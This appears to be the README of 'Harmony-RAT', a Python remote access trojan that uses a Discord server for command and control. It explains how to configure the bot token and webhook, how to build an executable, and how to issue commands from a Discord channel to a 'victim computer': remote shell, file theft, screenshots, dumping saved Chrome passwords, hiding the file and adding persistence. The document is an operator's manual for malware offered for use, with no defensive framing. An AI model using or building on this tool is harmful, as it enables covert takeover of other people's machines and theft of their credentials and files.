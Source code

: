 # Harmony-RAT
A simple RAT written in Python that uses Discord as it's C2 server.  


**Features**  
- Full Shell  
- Download files  
- Upload files  
- Screenshot screen  
- Screenshot all open windows  
- Dump credentials stored in Chrome  
- Persistence  
- And more...


# Usage  
**You have to enter your Discord servers:**  
* Webhook URL
* Bot Token  
* ServerID  
* executable filename

**Into the script around line 20.**

**If you want an EXE use PyInstaller with harmony.py**  
___
Once harmony is executed it will create a new category on your server named with the hardware ID of the computer that executed it.  
3 channels will also be created in that category:  
&emsp;-main: Use this channel to send commands to the victim computer.  
&emsp;-info: On first run the script will dump useful system information in here.  
&emsp;-creds: On first run the script will dump URL, username and password saved in chrome into here.  

# Commands  

**Commands are used in the main channel in the target category**

To send shell commands prefix the command with '>'.  
&emsp;EX:  
```
> tasklist
# Execute command 'tasklist' and return list of running tasks.

> dir c:\Users\bob\Downloads
# Execute command 'dir c:\Users\bob\Downloads' and return list of files in bobs download directory.
```  
---  
**Non shell commands dont need the '>' symbol**  

---  
**kill**  
Kills process specified by pid.  

EX:  
```
kill 2654
```

---
**hide**  
Adds the hidden attribute to the harmony file.  

**unhide**  
Removes the hidden attribute from the harmony file.  

EX:
```
hide
```
```
unhide
```

---
**download**
Uploads file specified by path to server.

EX:
```
download c:\Users\bob\Downloads\nuclearlaunchcodes.txt
```

---
**upload**
Downloads a file and saves it to c:\Users\Public\Downloads\

type upload and then drag the file you want to upload into discord and send the command.

EX:
![](https://github.com/EvanJosephL/Harmony-RAT/blob/main/pngs/upload_example.gif)  

----
**screenshot**  
Takes a screenshot and uploads it to the server.  

EX:
```
screenshot

# or

ss
```

---
**focusScreenshot**  
Attempts to take a screenshot of all open windows.  

EX:
```
focusScreenshot

# or

fss
```

---
**listWindows**
Lists all open windows.  

EX:
```
listWindows

# or

lw
```

---
**credDump**
Dumps all creds saved in Chrome.

EX:
```
credDump

# or

cred
```

---
**persistence**
Attempts to add persistence

EX:
```
persistence

# or

pt
```
